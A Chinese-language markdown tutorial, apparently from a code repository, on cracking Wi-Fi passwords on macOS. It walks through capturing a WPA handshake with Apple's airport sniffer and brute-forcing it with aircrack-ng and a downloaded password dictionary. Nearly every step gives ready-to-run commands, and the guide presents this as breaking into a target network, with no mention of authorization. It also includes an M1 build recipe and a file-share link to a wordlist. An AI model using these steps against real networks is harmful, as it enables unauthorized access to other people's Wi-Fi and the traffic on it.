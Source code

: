 # 破解WIFI

无线信号是加密的，如果你要连接无线路由器，就要给路由器发送一个请求，请求和无线路由器建立连接，学名叫握手包。这个包里面包含了你发送过去的一个密码，但是这个密码是加密的。

我们要破解的无线网络密码我们首先要抓到这个包，里面有加密过的密码，我们只要抓到这个包，然后利用工具进行密码本去批量匹配，匹配成功就可以实现Wi-Fi密码破解。

一些关键字:
```markdown
* `AP(Access Point)`: 网络接入点，是一种连接无线或有线网络的设备。就是俗称的路由器。
* `MAC(Media Access Control Address)`: 相当于网卡的身份证，MAC 地址本身是不能修改，但是可以通过伪造MAC 地址欺骗AP。
* `WEP(Wireless Encryption Protocol)`: 无线加密协议。很早的一种加密协议，容易破解。
* `WPA/WPA2(Wi-FiProtected Access)`: 基于WEP更安全的加密系统。
* `Handshake`:握手。请求和无线路由器建立连接的一个包
* `IV(Initialization Vector)`:初始化向量。
* `airport`: Mac自带的一款测试无线的工具，可以借助该工具监听无线获取无线发送的数据包。
* `aircrack-ng`: Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上并嗅探802.11a,802.11b, 802.11g的数据。
``` 

>如果使用`airport`指令查看wifi信息时, `SECURITY (auth/unicast/group)` 显示当前WiFi的加密方案是 `RSN(PSK,FT-PSK/AES/AES) `,意味着wifi使用WPA3版本的加密，目前不能破解。

## wifi破解过程
1. 安装`MacPorts`,[下载MacPorts地址](https://www.macports.org/install.php),选择对应的版本进行安装。(提醒：安装时断网，不然极有可能卡死)

2. 更新`MacPorts`,打开终端，输入命令（两次）
    ```shell
    sudo port selfupdate
    ```
3. 更新完成后，安装`aircrack-ng`。输入命令
    ```shell
    sudo port install aircrack-ng
    ```
> M1芯片需要下载源码进行手动编译
4. 使用`airport`工具查看 Wifi 信息, airport 是苹果自带工具，默认路径为`/System/Library/PrivateFrameworks/Apple80211.framework/Versions/A/Resources/airport`,可以直接在终端输入以下指令
    ```shell
    sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/A/Resources/airport -s
    ```
> SSID 是 wifi名称，RSSI 是信号强度，CHANNEL 是信道。
5. 获取本机网卡信息,本机电脑网卡为 `en0`。输入命令
    ```shell
    ifconfig
    ```
6. 监听 Wifi 握手包`handshake`,**en0为电脑网卡，13为监听的信道**,想监听哪个wifi把信道改成它的就可以。命令如下：
    ```shell
    sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/A/Resources/airport en0 sniff 13
    ```
7. 监听之后，Wi-Fi 图标会变化，使用 `ctrl+c` 停止监听，系统会将监听到的数据cap文件保存到本地`/private/tmp`文件夹下。
打开cap文件，查看cap文件中的数据是否被抓取到，输入命令查看
```shell
sudo aircrack-ng /private/tmp/airportSniffhKI8Kg.cap
```
> 如果要查询的路由列表的 Encryption中`（0 handshake）`是抓包失败，`（1 handshake）`则是抓包成功，否者要回到第1步重新抓取。**（抓包时需要这段时间内有人重新连接了wifi才能抓到 WPA(1 handshake)的数据,建议长时间监听wifi信道）**

8. 下载wifi密码字典, 瞎子啊链接:https://pan.baidu.com/s/1uSHL7PVbLqkZZqAZhb6Epw 密码: gl1t

9. 使用`aircrack-ng -w 密码字典  握手包文件`指令进行破解
```shell
sudo aircrack-ng -w dic.txt /tmp/airportSniffhKI8Kg.cap
```

提示`「Index number of target network ?」`时，输入 `Encryption` 中为`（1 handshake）`数据的行号。

等待破解结果...，中断破解过程可以直接按 `command + c` 组合键退出。破解过程所需时间长短受电脑硬件配置、字典体积大小的影响。如果dic.txt字典破解失败，则可以换其它字典进行破解，直到破解成功。


## M1芯片安装 
[下载aircrack-ng源码](https://github.com/aircrack-ng/aircrack-ng/releases/tag/1.7)，解压后进入根目录在命令行进行以下操作:
```shell
autoreconf -vif
env CPPFLAGS="-Wno-deprecated-declarations" ./configure --with-experimental
make
make check
```
编译完成后在当前目录下找到编译好的可执行文件，因为可执行文件在当前目录下，运行时进入当前目录使用`./aircrack-ng `即可使用。


## 参考文档
* [MAC系统下破解WIFI密码](https://www.cnblogs.com/hzxll/p/16271446.html)   
* [Aircack-ng教程](https://www.wangan.com/docs/1401)
* [暴力破解Wi-Fi密码（Mac M1）](https://blog.csdn.net/x319427393/article/details/126178468)
